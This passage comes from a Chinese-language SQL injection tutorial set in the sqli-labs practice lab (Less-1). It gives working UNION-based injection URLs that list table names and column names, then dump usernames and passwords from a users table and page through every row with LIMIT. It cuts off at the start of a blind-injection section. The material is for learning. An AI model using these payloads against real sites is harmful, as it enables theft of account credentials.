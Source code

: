 table_name:表名

column_name:列名

group_concat():显示所有查询到的数据

###### 7.查询表名

```mysql
http://192.168.191.138/sqli-labs-master/less-1/?id=-1'  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+ 
```

![270fb3d8332e53d6e3efbaa7de281c1](https://gitee.com/zh0y0/picture/raw/master/zh0y0/270fb3d8332e53d6e3efbaa7de281c1.png)

可以轻易看出这个users表是敏感的表，那么我们同样按照这种方法，拿到这个表中的列名

###### 8.查询列名

```
http://192.168.191.138/sqli-labs-master/less-1/?id=-1'  union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

![47190e0d474929d85bd819ed04291e0](https://gitee.com/zh0y0/picture/raw/master/zh0y0/47190e0d474929d85bd819ed04291e0.png)

这样我们就拿到了user表中的所有列名，其中username和password肯定是最敏感的，那么直接拿这两个数据

###### 9.查询数据

```
http://192.168.191.138/sqli-labs-master/less-1/?id=-1'  union select 1,username,password from security.users --+
```

![aa1b4328e65456506466122058a324b](https://gitee.com/zh0y0/picture/raw/master/zh0y0/aa1b4328e65456506466122058a324b.png)

可以看到执行成功，这个Dumb就是其中的一个账户密码了

###### 10.遍历所有数据

此时我们可以结合limit来遍历所有的字段值

```
http://192.168.191.138/sqli-labs-master/less-1/?id=-1'  union select 1,username,password from security.users limit 1,2 --+
```

![6c71a2a5ce34375b63fa853200293e8](https://gitee.com/zh0y0/picture/raw/master/zh0y0/6c71a2a5ce34375b63fa853200293e8.png)

这样我们就获得了第2行的值

数据库结构如下，同理可以遍历所有的

![5d04595a989d5c4113528a21a1a996b](https://gitee.com/zh0y0/picture/raw/master/zh0y0/5d04595a989d5c4113528a21a1a996b.png)

##### 2.sql-labs less-8  布尔盲注

###### 1.判断正确页面与错误页面
